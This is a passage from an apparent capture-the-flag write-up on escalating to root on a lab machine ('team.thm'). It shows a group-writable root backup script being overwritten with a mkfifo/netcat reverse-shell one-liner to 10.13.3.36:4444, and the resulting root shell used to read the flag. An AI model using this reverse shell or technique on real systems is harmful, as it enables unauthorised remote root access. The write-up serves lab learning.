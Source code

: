 ```bash 
gyles@TEAM:~$ ls -la /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17 20:36 /usr/local/bin/main_backup.sh
gyles@TEAM:~$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
gyles@TEAM:~$ 
```

This file is writable by the admin group. So we can use it to launch a remote shell.

```bash
echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" > /usr/local/bin/main_backup.sh
```

Once connected as root, I could get the root flag. 

```bash
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.230 46758
whoami
root
cat /root/root.txt
THE_FLAG
```
